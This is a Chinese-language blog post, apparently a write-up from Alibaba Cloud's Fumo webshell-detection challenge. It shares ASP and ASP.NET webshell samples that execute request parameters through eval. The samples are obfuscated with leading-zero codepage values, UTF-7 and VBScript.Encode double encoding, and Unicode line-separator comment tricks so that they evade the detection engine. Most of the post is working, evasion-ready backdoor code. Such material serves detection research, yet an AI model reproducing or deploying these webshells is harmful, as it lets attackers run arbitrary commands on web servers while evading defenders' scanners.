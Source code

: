 ​                                                   关注微信公众号漫漫安全路，查看更多精彩文章。

![4de798b7ba63fa0fb6a2b7f338bd997](C:\Users\admin\Documents\WeChat Files\wxid_ac8xxqj8y2iv22\FileStorage\Temp\4de798b7ba63fa0fb6a2b7f338bd997.jpg)

阿里云伏魔挑战赛webshell绕过样本分享
## ASP
`asp`样本分享下面两个,绕过思路为前导零、双重编码。
#### 前导零
`asp`支持将代码`utf-7`编码，于是构造出下面`shell`样本进行测试。
```
<%@codepage=65000%>
<%
+AGUAdgBhAGwAKAByAGUAcQB1AGUAcwB0ACgAIgBrAGkAbABsAGUAcgAiACkAKQ-
%>
```
可能因为是很久以前的公开手法直接被杀，注意到`codepage=65000`推测这里`65000`可能采用数字类型进行解析，在某些语言里有一种技巧在解析数字时会丢弃前导零。比如`065000`会被解析为`65000`。于是将`codepage`写为`065000`发现也可以成功解析，多次尝试以后发现最多写成`0000065000`可以识别成功。猜测原因是Long类型最长为十位数字，在解析之前对大于十位的数字直接报错或者不解析。于是提交如下样本成功绕过伏魔引擎。
```
<%@codepage=0000065000%>
<%
+AGUAdgBhAGwAKAByAGUAcQB1AGUAcwB0ACgAIgBrAGkAbABsAGUAcgAiACkAKQ-
%>
```
#### 双重编码
`asp`支持将代码`VBScript.Encode`编码。
```
<%@ LANGUAGE = "VBScript.Encode"%>
<%
#@~^LwAAAA==]A/2KxU+R1W93wmon'+*TT8)27CVvD+$;n/D`r3rVsnMJb#wg8AAA==^#~@
%>
```
直接提交依然被杀。注意到`VBScript.Encode`和`utf-7`编码不是同一个配置项，于是想到能不能使用双重编码绕过，测试以后发现可以也能够被正确解析。绕过样本如下先使用`VBScript.Encode`编码内容再使用`utf-7`编码即可。
```
<%@ LANGUAGE = "VBScript.Encode" codepage=65000%>
<%
+ACM-+AEA-+AH4-+AF4-LwAAAA+AD0-+AD0-+AF0-A/2KxU+-R1W93wmon'+-+ACo-TT8)27CVvD+-+ACQ-+ADs-n/D+AGA-r3rVsnMJb+ACM-wg8AAA+AD0-+AD0-+AF4-+ACM-+AH4-+AEA-
%>
```
![](https://files.mdnice.com/user/114427/9a3585f4-fc83-46c4-8f2d-0c4a8caede37.png)
## ASP.NET
`aspx`的样本第三届的时候比较容易绕过，有很多污点源都没打标这类就不写了。主要写两类特殊语法、危险方法替换。
#### 特殊语法
以前看别人绕`jsp`学到的使用注释`//`加`\u000a`换行进行来绕过
```
<%@ Page Language="Jscript"%>
<%
    var p = eval("//\u000a\u0052\u0065\u0071\u0075\u0065\u0073\u0074\u002E\u0049\u0074\u0065\u006D[\"g\"]")
    eval(p,"unsafe");
%>
```
测试发现可以解析但是伏魔引擎检测为`webshell`查阅资料发现使用`\u2029`段落分隔符也可以起到换行的作用。测试可以解析并绕过。
```
<%@ Page Language="Jscript"%>
<%
    var p = eval("//\u2029\u0052\u0065\u0071\u0075\u0065\u0073\u0074\u002E\u0049\u0074\u0065\u006D[\"g\"]")
    eval(p,"unsafe");
%>
```